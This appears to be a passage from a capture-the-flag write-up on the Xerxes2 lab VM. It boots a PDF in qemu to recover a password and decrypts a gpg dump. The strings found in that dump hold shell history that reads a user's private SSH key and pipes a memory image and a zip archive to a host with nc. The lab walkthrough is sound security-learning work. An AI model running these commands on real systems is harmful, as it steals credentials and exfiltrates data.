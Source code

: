 > Ange Albertini explains the internal organization of this issue’s PDF in Section 8. Curious readers might want to run **qemu-system-i386 -fda pocorgtfo02.pdf** in order to experience all the neighbor- liness that this issue has to offer

I ran qemu-system-i386 and passed it polito.pdf as its argument and got the password for dump.gpg:

![](/images/2014-08-08/05.png)

Using the password, I was able to decrypt the dump file: 

```
polito@xerxes2:~$ gpg --passphrase amFuaWNl dump.gpg 
gpg: CAST5 encrypted data
gpg: encrypted with 1 passphrase
gpg: WARNING: message was not integrity protected
polito@xerxes2:~$ ls -l
total 172960
-rw-r--r-- 1 polito polito    142564 Jul 16 10:57 audio.txt
-rw-r--r-- 1 polito polito 132120576 Aug  8 21:15 dump
-rw-r--r-- 1 polito polito  44813850 Jul 16 12:17 dump.gpg
-rw-r--r-- 1 polito polito     27591 Jul 16 12:19 polito.pdf
```

This was a binary file, so I examined it using strings and piped it into less. At around lines 54795-54830, I saw something interesting:

```
cat /home/korenchkin/.ssh/id_rsa
dd if=/dev/fmem of=/root/xerxesmem bs=1M count=128
dd if=/dev/fmem of=/root/xerxesmem bs=1M count=128
cd volatility-2.3.1/
cat xerxesmem |nc 172.16.32.1 5555
root@xerxes2:~/fmem_1.6-0# 
cat Debian7.zip | nc 172.16.32.1 5555
/home/korenchkin/.ssh/id_rsa
```
